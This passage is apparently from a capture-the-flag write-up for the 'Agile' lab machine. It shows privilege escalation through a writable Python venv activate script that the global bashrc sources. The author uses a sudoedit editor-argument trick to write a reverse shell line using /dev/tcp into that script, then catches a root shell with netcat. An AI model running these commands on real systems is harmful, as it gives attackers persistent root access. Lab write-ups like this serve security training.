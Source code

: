 ```bash
```

The user has write permissions over `/app/venv/bin/activate`.

If we look back to our first reverse shell we see that the shell we got is running with python venv.

```bash
(venv) www-data@agile:
```

If we check our path variable it gives this:

```bash
edwards@agile:~$ echo $PATH
/app/venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We see that the venv is added to the path.

Checking my `.bashrc` doesn't show anything that is sourcing the python venv.

But if we check the global bashrc at `/etc/bash.bashrc` we find it's the one responsible for it.

```bash
edwards@agile:~$ cat /etc/bash.bashrc
[SNIP]
# all users will want the env associated with this application
source /app/venv/bin/activate
```

So every time a user logs in, bash will source the venv.

Since we have write permissions over activate, we can put a reverse shell for example that would be triggered when someones log in.

Let's use the exploit of sudo to edit the file.

```terminal
edwards@agile:~$ export EDITOR="vi -- /app/venv/bin/activate"
edwards@agile:~$ sudoedit -u dev_admin /app/config_test.json
sudoedit: --: Permission denied
2 files to edit
sudoedit: /app/config_test.json unchanged
edwards@agile:~$ head /app/venv/bin/activate
# This file must be used with "source bin/activate" *from bash*
# you cannot run it directly

sh -i >& /dev/tcp/10.10.16.18/4444 0>&1

```

Now we setup a listener and wait for someone to login.

```terminal
[★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.203 45974
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
